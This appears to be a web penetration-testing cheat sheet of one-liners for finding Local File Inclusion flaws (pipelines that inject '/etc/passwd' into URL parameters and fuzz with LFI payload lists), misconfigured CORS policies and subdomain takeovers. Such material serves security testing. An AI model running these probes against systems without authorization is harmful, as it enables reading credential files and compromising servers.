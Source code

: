 Local File Inclusion (LFI) Testing
Local File Inclusion (LFI) is a vulnerability that lets attackers include and read files from the server such as /etc/passwd, log files or configuration files. It can lead to sensitive data exposure, code execution or even full system compromise. Use the following one-liners to automate LFI detection and fuzz for vulnerable parameters.

Automated LFI discovery:
nuclei -l subs.txt -t /root/nuclei-templates/http/vulnerabilities/generic/generic-linux-lfi.yaml -c 30
echo "https://example.com/" | gau | gf lfi | uro | sed 's/=.*/=/' | qsreplace "FUZZ" | sort -u | xargs -I{} ffuf -u {} -w payloads/lfi.txt -c -mr "root:(x|\*|\$[^\:]*):0:0:" -v
gau target.com | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'

Alternative LFI method:
echo 'https://example.com/index.php?page=' | httpx-toolkit -paths payloads/lfi.txt -threads 50 -random-agent -mc 200 -mr "root:(x|\*|\$[^\:]*):0:0:"
echo "https://example.com/" | gau | gf lfi | uro | sed 's/=.*/=/' | qsreplace "FUZZ" | sort -u | xargs -I{} ffuf -u {} -w payloads/lfi.txt -c -mr "root:(x|\*|\$[^\:]*):0:0:" -v
Key components:
gf lfi: Filters URLs potentially vulnerable to LFI
qsreplace “FUZZ”: Replaces parameter values with FUZZ keyword
ffuf: Fast web fuzzer for testing payloads
-mr “root:(x|\*|\$[^\:]*):0:0:”: Matches Linux passwd file format

LFI testing Using FFUF Request Mode
ffuf -request lfi -request-proto https -w /root/wordlists/offensive\ payloads/LFI\ payload.txt -c -mr "root:"

CORS (Cross-Origin Resource Sharing) Testing
Misconfigured CORS policies can allow unauthorized domains to access sensitive data or perform privileged actions across origins potentially leading to serious security issues like account takeover or data theft. This section covers both manual and automated methods to detect insecure CORS configurations using simple curl commands and powerful tools like httpx, nuclei, Corsy and CORScanner.

Manual CORS testing using curl
curl -H "Origin: http://example.com" -I https://domain.com/wp-json/

Detailed CORS analysis
curl -H "Origin: http://example.com" -I https://domain.com/wp-json/ | grep -i -e "access-control-allow-origin" -e "access-control-allow-methods" -e "access-control-allow-credentials"

Automated CORS testing:
cat example.coms.txt | httpx -silent | nuclei -t nuclei-templates/vulnerabilities/cors/ -o cors_results.txt
python3 corsy.py -i subdomains_alive.txt -t 10 --headers "User-Agent: GoogleBot\nCookie: SESSION=Hacked"
python3 CORScanner.py -u https://example.com -d -t 10

Subdomain Takeover Detection
Subdomain takeover occurs when a subdomain points to an external service (like GitHub Pages, Heroku or S3) that is no longer claimed allowing attackers to hijack it. Tools like subzy can automate the detection process by checking for takeover signatures across multiple providers, verifying SSL, and using high concurrency for faster results while filtering out false positives.
subzy run --targets subdomains.txt --concurrency 100 --hide_fails --verify_ssl
This tool checks for subdomain takeover vulnerabilities by:
Testing multiple service providers
Verifying SSL certificates
Using high concurrency for speed
Hiding failed attempts to reduce noise
